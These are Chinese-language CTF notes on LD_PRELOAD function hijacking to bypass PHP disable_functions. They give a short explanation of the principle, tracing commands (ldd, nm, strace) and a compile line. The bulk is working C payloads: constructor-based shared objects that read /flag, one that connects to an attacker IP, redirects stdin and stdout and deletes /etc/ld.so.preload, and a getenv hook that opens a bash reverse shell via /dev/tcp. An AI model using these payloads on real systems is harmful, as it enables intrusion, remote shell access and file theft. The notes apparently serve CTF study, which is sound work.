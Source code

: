 [从一道ctf题中学会了利用LD_PRELOAD突破disable_functions](https://zhuanlan.zhihu.com/p/94112503)<br />[利用LD_PRELOAD实现函数劫持以及用法总结 – Zgao’s blog](https://zgao.top/%E5%88%A9%E7%94%A8ld_preload%E5%AE%9E%E7%8E%B0%E5%87%BD%E6%95%B0%E5%8A%AB%E6%8C%81%E4%BB%A5%E5%8F%8A%E7%94%A8%E6%B3%95%E6%80%BB%E7%BB%93/)<br />[无需sendmail：巧用LD_PRELOAD突破disable_functions - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/192052.html)<br />[深入浅出LD_PRELOAD & putenv()-安全客 - 安全资讯平台](https://www.anquanke.com/post/id/175403#h2-5)
## LD_PRELOAD利用
### 原理
:::tips
利用漏洞控制 web 启动新进程 a.bin（即便进程名无法让我随意指定），a.bin 内部调用系统函数 b()，b() 位于系统共享对象 c.so 中，所以系统为该进程加载共 c.so，我想法在 c.so 前优先加载可控的 c_evil.so，c_evil.so 内含与 b() 同名的恶意函数，由于 c_evil.so 优先级较高，所以，a.bin 将调用到 c_evil.so 内 b() 而非系统的 c.so 内 b()，同时，c_evil.so 可控，达到执行恶意代码的目的。
:::

- 通过修改环境变量LD_PRELOAD来指定相关命令或函数首先加载哪个动态链接库
```c
export LD_PRELOAD=”库文件路径”
```

- 修改/etc/ld.so.preload来指导关命令或函数首先加载哪个动态链接库

使用strace命令追踪调用可以看到访问了该文件
> **strace**能帮助你追踪到一个程序所执行的系统调用。 当你想知道程序和操作系统如何交互的时候

![image.png](./images/20231017_2350249912.png)
```c
库文件路径
```
## 检测动态调用地步骤
查看进程调用系统函数明细。linux 创建新进程的过程较为复杂，我关心进程加载了哪些共享对象、可能调用哪些 API、实际调用了哪些 API。比如，运行 /usr/bin/id，通过 ldd 可查看系统为其加载的共享对象：
```c
ldd /usr/bin/id
```
![](./images/20231017_2350258807.png)<br />由于可执行文件 /usr/bin/id 内含符号表，所以，运行 nm -D /usr/bin/id 2>&1 或 readelf -Ws /usr/bin/id 可查看该程序可能调用的系统 API 明细：
```c
nm -D /usr/bin/id 2>&1
readelf -Ws /usr/bin/id
```
![](./images/20231017_2350266913.png)<br />由于程序运行时会根据命令行选项、运行环境作出不同反应，导致真正运行时调用的 API 可能只是 readefl 查看的子集，你可以运行 strace -f /usr/bin/id 2>&1 跟踪实际 API 调用情况，比如，实际调用 open() 的入参、返回值一目了然：
```c
strace -f /usr/bin/id 2>&1
```
![](./images/20231017_2350278549.png)

 
## 编译so文件
```c
gcc -shared -fPIC test.c -o test.so
```
## 各种C文件
### 读文件
```c
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

char *getfileall(char *fname)
{
    FILE *fp;
    char *str;
    char txt[1000];
    int filesize;
    //打开一个文件
    if ((fp=fopen(fname,"r"))==NULL){
        printf("打开文件%s错误\n",fname);
        return NULL;
    }
    //将文件指针移到末尾
    fseek(fp,0,SEEK_END);
    filesize = ftell(fp);//通过ftell函数获得指针到文件头的偏移字节数。

    str=(char *)malloc(filesize);//动态分配str内存
    //    str=malloc(filesize);//动态分配str内存
    str[0]=0;//字符串置空
    //    memset(str,filesize*sizeof(char),0);//清空数组,字符串置空第二种用法
    rewind(fp);

    while((fgets(txt,1000,fp))!=NULL){
        strcat(str,txt);
    }
    fclose(fp);
    return str;
}

__attribute__ ((__constructor__)) void exp (void){
    char *p;
    char *fname="/flag"; // 文件名
    p=getfileall(fname);
    if (p!=NULL) puts(p);
}
```
```c
#include <stdlib.h>
#include <stdio.h>

// 改写magic_open 适用于/bin/file

int magic_open() {
    FILE *file;
    char c;

    file = fopen("/flag", "r");
    while((c = fgetc(file)) != EOF) {
        putchar(c);
    }

    fclose(file);
    exit(0);

    return 0;
}
```
## 命令执行
```c
#include<stdio.h>
#include<stdlib.h>
#include<sys/socket.h>
#include<netinet/in.h>

// gcc ld_preload_1.c -fPIC -shared -o ld_preload_1.so
char *server_ip="114.514.1919.810";
uint32_t server_port=9999;

static void reverse_shell(void) __attribute__((constructor));
static void reverse_shell(void)
{
    //remove the file /ld.so.preload
    remove("/etc/ld.so.preload");

    //socket initialize
    int sock = socket(AF_INET, SOCK_STREAM, 0);
    struct sockaddr_in attacker_addr = {0};
    attacker_addr.sin_family = AF_INET;
    attacker_addr.sin_port = htons(server_port);
    attacker_addr.sin_addr.s_addr = inet_addr(server_ip);
    //connect to the server
    if(connect(sock, (struct sockaddr *)&attacker_addr,sizeof(attacker_addr))!=0)
        exit(0);
    //dup the socket to stdin, stdout and stderr
    dup2(sock, 0);
    dup2(sock, 1);
    dup2(sock, 2);
    //execute /bin/sh to get a shell
    //shell会被timeout 1
    //execve("/bin/sh", 0, 0);
    system("cat /flag");
}
```
```c
#define _GNU_SOURCE
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void payload() {
system("bash -c 'exec bash -i &>/dev/tcp/ip/port <&1'");
}
char* getenv(const char *__name) {
unsetenv("LD_PRELOAD");
payload();
}
```
